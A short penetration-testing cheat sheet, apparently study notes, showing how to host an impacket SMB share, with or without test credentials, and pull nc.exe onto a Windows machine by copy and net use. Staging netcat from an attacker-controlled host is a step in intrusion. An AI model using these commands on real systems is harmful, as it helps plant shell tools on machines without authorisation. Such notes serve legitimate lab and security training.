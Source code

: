 # SMB Downloads

```
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

```
copy \\192.168.220.133\share\nc.exe
```

```
copy \\192.168.220.133\share\nc.exe
```

```
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

```
net use n: \\192.168.220.133\share /user:test test
```
